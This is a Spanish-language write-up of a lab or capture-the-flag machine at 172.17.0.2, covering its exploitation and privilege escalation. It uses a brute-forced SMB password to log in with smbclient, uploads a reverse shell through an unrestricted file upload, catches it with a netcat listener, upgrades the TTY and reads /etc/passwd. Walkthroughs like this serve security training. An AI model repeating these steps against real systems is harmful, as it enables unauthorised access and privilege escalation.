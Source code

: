 ## Explotación

El resultado del anterior bruteforce arrojó una contraseña para el usuario `bob` que luego pudo ser utilizada para conectarse desde el **smbclient** a la red de recursos compartidos.

```bash
> smbclient \\\\172.17.0.2\\html -U "bob"%"star"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 11 04:35:48 2024
  ..                                  D        0  Thu Apr 11 04:18:47 2024
  index.html                          N     1832  Thu Apr 11 04:21:43 2024

		38818336 blocks of size 1024. 1555844 blocks available
```

Con el comando `get index.html` se obtuvo el fichero y se determinó que era el mismo alojado en la página principal con el puerto **80** por lo que se procedió a realizar un **Unrestricted File Upload** y cargar una reverse shell con el comando `put` ya codificada para conectarse desde la terminal usando **netcat**.

![Uploading Shell](https://i.imgur.com/DSMKiMF.png)

Desde el navegador se accedió al a url de shell y el resultado fue positivo para realizar una conexión en reversa.

![Reverse Shell](https://i.imgur.com/UUglTkO.png)

<br/>

## Escalada de privilegios

Luego de recibir la reverse shell en la máquina Kali, el comando `whoami` reveló el usuario `www-data` por lo que se revisó el archivo `/etc/passwd` para analizar qué usuarios eran capaces de ejecutar `/bin/bash` y así poder obtener una escalada de privilegios.
Por otro lado también se hizo tratamiento de la tty para trabajar de manera interactiva con la shell.
En el listado se encontró al usuario `bob` del cual ya se había accedido a su contraseña, por lo que se realizó un `su bob` para cambiar al mismo

```bash
> nc -nlvp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 52316
Linux aee0f4d201ac 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 x86_64 x86_64 GNU/Linux
 18:54:24 up 10:27,  0 users,  load average: 0.91, 0.62, 0.45
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@aee0f4d201ac:/$ export TERM=xterm
export TERM=xterm
www-data@aee0f4d201ac:/$ ^Z
[1]  + 505274 suspended  nc -nlvp 443
\u276f stty raw -echo; fg
[1]  + 505274 continued  nc -nlvp 443

www-data@aee0f4d201ac:/$ whoami
www-data
www-data@aee0f4d201ac:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```